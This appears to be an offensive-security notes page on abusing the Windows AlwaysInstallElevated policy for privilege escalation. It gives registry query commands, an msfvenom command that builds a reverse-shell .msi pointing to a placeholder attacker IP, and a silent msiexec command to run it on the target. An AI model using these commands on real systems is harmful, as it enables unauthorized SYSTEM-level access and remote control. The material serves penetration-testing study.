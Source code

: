 # AlwaysInstallElevated

The `AlwaysInstallElevated` policy can be enabled to allow install of a Windows Installer package with elevated (system) privileges.

> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.

To install a package with elevated (system) privileges, set the AlwaysInstallElevated value to **`1`** under both of the following registry keys:

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

`HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`



**The following commands can be used to query the values:**

```powerquery
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

If both of the values are set to **1**, a malicious`.msi` file can be created (`msfvenom`) to start a reverse shell with administrative privileges.&#x20;

**Attacker machine**

```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=[attacker_ip] lport=[port] -f msi -o malicious.msi
```

The `.msi` file can be executed on the target machine with the following command:

```powershell
C:\> msiexec /quiet /qn /i [path_to_msi_file]

# eg.
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

The Metasploit handler should be started on the attacker machine:&#x20;

[https://jarrettgxz-sec.gitbook.io/offensive-security/vulnerability-and-exploitation/msfvenom#module-to-use-on-the-attacking-machine-to-catch-a-shell](https://jarrettgxz-sec.gitbook.io/offensive-security/vulnerability-and-exploitation/msfvenom#module-to-use-on-the-attacking-machine-to-catch-a-shell)

{% embed url="https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated" %}
